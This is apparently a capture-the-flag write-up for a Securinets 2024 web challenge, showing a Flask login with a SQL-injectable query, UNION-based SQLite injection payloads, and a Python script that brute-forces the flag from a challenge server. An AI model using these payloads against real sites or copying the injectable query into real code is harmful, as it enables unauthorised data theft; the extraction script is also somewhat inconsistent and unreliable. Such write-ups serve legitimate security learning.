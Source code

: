<h1>  7Billions and you have 0 chance  </h1>

<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/image3.PNG>

Enumerating through the website i found ```robots.txt```
And got this code:

```py
from flask import request, send_from_directory, render_template, send_file, Flask
import sqlite3

app = Flask(__name__)

app.static_folder="public"


def getUser(username, pwd):
    connection_obj = sqlite3.connect("database.db")
    cursor_obj = connection_obj.cursor()
    cursor_obj.execute(
        f"SELECT * FROM users WHERE username = '{username}' AND password = '{pwd}'"
    )

    result = cursor_obj.fetchone()
    print(result)
    if result:
        return True
    else:
        return False


@app.route("/", methods=["GET"])
def home():
    return render_template("index.html")


@app.route("/robots.txt", methods=["GET"])
def static_from_root():
    return send_from_directory(app.static_folder, request.path[1:])


@app.route("/source", methods=["GET"])
def get_source():
    return send_file(__file__)


@app.route("/admin", methods=["POST"])
def admin():
    username = request.form.get("username")
    password = request.form.get("password")

    if username and password and getUser(username, password):
        return render_template("auth.html")
    else:
        return render_template("404.html"), 404


@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html"), 404


app.run(host="0.0.0.0", port=8000)
```

It was obvious that it was SQLite injection, but to be sure, let's detect the injection point:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture2.PNG>
after we put ```'``` we got this Error:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture3.PNG>



Next, we need to find the number of columns using this payload:
```admin'UNION+SELECT+NULL,NULL,NULL--```
I found that there were only 3 columns through enumeration.
and when I got that the database has 3 tables, a new representative got to us:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture4.PNG>
```which is the valid one :)```

<b>Here is the final take "there are 7 billions people and I have 0 chance,read it from the end"</b>

From that, we knew that it was boolean-based sqlite injection, so let's get to work:


first we need to find the name of the table using this query:
```<b>username=admin'UNION+SELECT+tbl_name,NULL,NULL+FROM+sqlite_master+WHERE+tbl_name+NOT+LIKE+'sqlite_%'+AND+tbl_name+LIKE+'fla%'+--&password=asd</b>```

throught enumerating the ```LIKE``` value we found that the table name is ```flag```.

after that we need to find the column name!
i honestly guessed that the coloumn name was ```flag``` i think thats has to do.
i used this query to guess it:
```admin'UNION+SELECT+flag,NULL,NULL+FROM+flag--```
and got a valid response:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture5.PNG>


finally we have to exract the flag using this query:
```admin'UNION+SELECT+0x660x6c0x610x67,NULL,NULL+FROM+flag+WHERE+flag+LIKE+'securinets{%'--```
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture6.PNG>

we have to keep enumerating the ```LIKE``` value until we get our full flag.
so i wrote this script to do the work

```py
from requests import *
from string import *
url = "http://51.12.211.165:8200/admin"
ans=""

pr="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!_{}"
for i in pr:
    data = {
    "username": "admin' UNION SELECT 0x660x6c0x610x67,NULL,NULL FROM flag WHERE flag LIKE 'securinets{luCK_"+(ans+i)+"%'--",
    "password": "asd"}

    p=post(url,data=data)
    if p.status_code==200:
        ans+=i
        print(ans)
```

running the script we got the flag: ```securinets{Luck_15_n00b5_b3l13f5}```

